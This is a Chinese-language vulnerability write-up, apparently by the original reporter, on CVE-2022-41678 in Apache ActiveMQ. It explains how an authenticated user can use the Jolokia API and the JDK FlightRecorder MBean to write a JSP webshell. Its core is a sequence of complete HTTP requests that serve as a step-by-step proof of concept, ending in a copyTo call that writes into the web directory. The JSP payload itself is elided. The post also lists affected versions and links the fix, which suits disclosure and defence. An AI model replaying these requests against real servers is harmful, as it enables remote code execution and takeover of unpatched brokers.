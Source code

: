 
# Apache ActiveMQ Jolokia 远程代码执行漏洞(CVE-2022-41678)分析

发表于 2023-11-29 更新于 2023-11-30 阅读次数： 1018 Valine：

[↓↓↓](#valine-comments "valine")  
  
0  
  
[↑↑↑](#valine-comments "valine")

ActiveMQ中，经过身份验证的用户默认情况下可以通过`/api/jolokia/`接口操作MBean，其中FlightRecorder可以被用于写Jsp WebShell，从而造成远程代码执行漏洞

FlightRecorder存在于Jdk 11+，具体类名：`jdk.management.jfr.FlightRecorderMXBeanImpl`

这个漏洞是我去年通过微步的X漏洞奖励计划提交的，今天看到已经被修复和公开了，就顺便写一下分析文章

## [](#%E5%BD%B1%E5%93%8D%E8%8C%83%E5%9B%B4 "影响范围")影响范围

-   Apache ActiveMQ before 5.16.6
-   Apache ActiveMQ 5.17.0 before 5.17.4
-   Apache ActiveMQ 5.18.0 unaffected
-   Apache ActiveMQ 6.0.0 unaffected

## [](#%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90 "漏洞分析")漏洞分析

### [](#%E5%8E%9F%E7%90%86 "原理")原理

漏洞入口在 [http://localhost:8161/api/jolokia/](http://localhost:8161/api/jolokia/) ，注意需要带上Origin头才可以访问

![image-20220730133512058](assets/1701679785-93fac394422c8b3c963125d727beb643.png)

主要问题出在FlightRecorder这个Mbean，功能是记录内存，gc，调用栈等，漏洞用到的方法主要是以下几个

-   newRecording
    -   新建记录
-   setConfiguration
    -   更改配置
-   startRecording
    -   开始录制
-   stopRecording
    -   结束录制
-   copyTo
    -   导出录制文件

漏洞思路是通过setConfiguration修改配置，把一些键名改成jsp代码，记录的数据就会包含该jsp代码，录制完成后，通过copyTo导出到web目录即可

代码位置在 jdk.management.jfr.FlightRecorderMXBeanImpl#setConfiguration

### [](#%E6%8B%BF%E5%88%B0%E9%BB%98%E8%AE%A4%E9%85%8D%E7%BD%AE "拿到默认配置")拿到默认配置

调用setPredefinedConfiguration，断点停下来后可以拿到默认的配置，先保存下来

```plain
POST /api/jolokia/ HTTP/1.1
Host: localhost:8161
Origin:localhost:8161
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Content-Type: application/json
Content-Length: 155

{
    "type": "EXEC",
    "mbean": "jdk.management.jfr:type=FlightRecorder",
    "operation": "setPredefinedConfiguration",
    "arguments": [1,"s"]
}
```

![image-20220730134739877](assets/1701679785-e3e848934504a0d405ae86b620fd6813.png)

### [](#%E6%96%B0%E5%BB%BA%E8%AE%B0%E5%BD%95 "新建记录")新建记录

```plain
POST /api/jolokia/ HTTP/1.1
Host: localhost:8161
Origin:localhost:8161
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Content-Type: application/json
Content-Length: 136

{
    "type": "EXEC",
    "mbean": "jdk.management.jfr:type=FlightRecorder",
    "operation": "newRecording",
    "arguments": []
}
```

记录的id 为 1，后面poc都要使用这个id

![image-20220730134939126](assets/1701679785-ae89e8615416fa7b1217b87e6adc75ad.png)

### [](#%E6%9B%B4%E6%94%B9%E9%85%8D%E7%BD%AE "更改配置")更改配置

将默认配置的如下处改为jsp代码，特殊字符需要实体编码

![image-20220730135355053](assets/1701679785-26e9b97b07627c0b134f409a933593f7.png)

如下 arguments 的第一位参数是记录id，第二个参数是配置内容（很长，已省略）

```plain
POST /api/jolokia/ HTTP/1.1
Host: localhost:8161
Origin:localhost:8161
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Content-Type: application/json
Content-Length: 31263

{
    "type": "EXEC",
    "mbean": "jdk.management.jfr:type=FlightRecorder",
    "operation": "setConfiguration",
    "arguments": [1,"..."]
}
```

![image-20220730135515477](assets/1701679785-60d5c0b97d5827680ac04eac7d05b54b.png)

### [](#%E5%AF%BC%E5%87%BA%E5%BD%95%E5%88%B6%E5%88%B0web%E7%9B%AE%E5%BD%95 "导出录制到web目录")导出录制到web目录

开始录制

```plain
POST /api/jolokia/ HTTP/1.1
Host: localhost:8161
Origin:localhost:8161
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Content-Type: application/json
Content-Length: 141

{
    "type": "EXEC",
    "mbean": "jdk.management.jfr:type=FlightRecorder",
    "operation": "startRecording",
    "arguments": [1]
}
```

![image-20220730135551581](assets/1701679785-1909c97e70a96be862fbfca81852df94.png)

结束录制

```plain
POST /api/jolokia/ HTTP/1.1
Host: localhost:8161
Origin:localhost:8161
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Content-Type: application/json
Content-Length: 138

{
    "type": "EXEC",
    "mbean": "jdk.management.jfr:type=FlightRecorder",
    "operation": "stopRecording",
    "arguments": [1]
}
```

![image-20220730135637118](assets/1701679785-a54b726b28ad58c0cc4421d90e7a1c9a.png)

导出到web目录

```plain
POST /api/jolokia/ HTTP/1.1
Host: localhost:8161
Origin:localhost:8161
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Content-Type: application/json
Content-Length: 159

{
    "type": "EXEC",
    "mbean": "jdk.management.jfr:type=FlightRecorder",
    "operation": "copyTo",
    "arguments": [1,"../webapps/admin/test.jsp"]
}
```

![image-20220730135719277](assets/1701679785-3c58e3809a9aa2830b84a2a624f51134.png)

### [](#%E8%AE%BF%E9%97%AEwebshell "访问webshell")访问webshell

[http://localhost:8161/admin/test.jsp](http://localhost:8161/admin/test.jsp)

![image-20231129175943787](assets/1701679785-71ae0e35fbe0d9db0cc0180757c5b884.png)

## [](#%E6%BC%8F%E6%B4%9E%E4%BF%AE%E5%A4%8D "漏洞修复")漏洞修复

[https://github.com/apache/activemq/commit/6120169e5](https://github.com/apache/activemq/commit/6120169e5)

[\# 漏洞分析](https://l3yx.github.io/tags/%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/) [\# ActiveMQ](https://l3yx.github.io/tags/ActiveMQ/) [\# Jolokia](https://l3yx.github.io/tags/Jolokia/)

[↓↓↓](https://l3yx.github.io/2023/09/28/Spring-Kafka-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E-CVE-2023-34040-%E5%88%86%E6%9E%90/ "Spring-Kafka 反序列化漏洞(CVE-2023-34040)分析")  
  
Spring-Kafka 反序列化漏洞(CVE-2023-34040)分析  
  
[↑↑↑](https://l3yx.github.io/2023/09/28/Spring-Kafka-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E-CVE-2023-34040-%E5%88%86%E6%9E%90/ "Spring-Kafka 反序列化漏洞(CVE-2023-34040)分析")
